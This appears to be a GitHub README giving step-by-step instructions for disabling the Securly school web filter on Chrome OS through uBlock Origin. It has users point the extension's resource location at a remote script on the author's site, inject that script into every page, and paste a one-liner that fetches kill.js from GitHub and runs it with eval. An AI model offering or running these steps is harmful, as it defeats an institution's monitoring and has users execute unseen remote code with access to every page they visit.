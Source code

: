 
# I hate Securly



Fill with Securly bypasses and such and other chrome os bypasses because god forbid I use a computer for being a computer!


## SECURLY BYPASS UNBLOCK ORIGIN (Made By Zek-c Modified by Me)


[Tutorial On my Site!](https://jacksdamnserver.site/bypass/UnBlockOrigin/)
But if you dont wanna

1. Download uBlock Origin if not installed.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome.png)

2. Go to the settings in uBlock Origin.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome2.png)

3. Enable Advanced settings and click the gears.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome3.png)

4. Change ```userResourcesLocation``` to ```userResourcesLocation https://jacksdamnserver.site/exec.js``` and hit apply.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome4.png)

5.Now go back and click My Filters and set it to ```*##`+js(execute_script.js)``` and apply.
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome5.png)
6. Go to https://securly.com

7.Copy this Javascript ```fetch('https://raw.githubusercontent.com/ThisJackRN/i-hate-securly/main/kill.js').then(r => r.text()).then(r => eval(r))``` 

8. Do the keybind Ctrl+Shift+~ to show the eval prompt and place the copied code into the eval prompt and hit enter!
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome7.png)
9. Click the off button and you are done.
